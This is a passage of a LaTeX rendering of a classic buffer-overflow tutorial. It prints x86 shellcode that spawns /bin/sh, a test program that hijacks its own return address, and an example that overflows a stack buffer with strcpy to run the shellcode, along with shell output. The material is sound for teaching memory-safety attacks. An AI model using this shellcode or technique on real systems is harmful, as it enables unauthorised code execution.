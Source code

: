\documentclass[12pt]{article}
\begin{document}
And our new test program: testsc2.c 

\begin{lstlisting}[caption=testsc2.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}
\end{document}
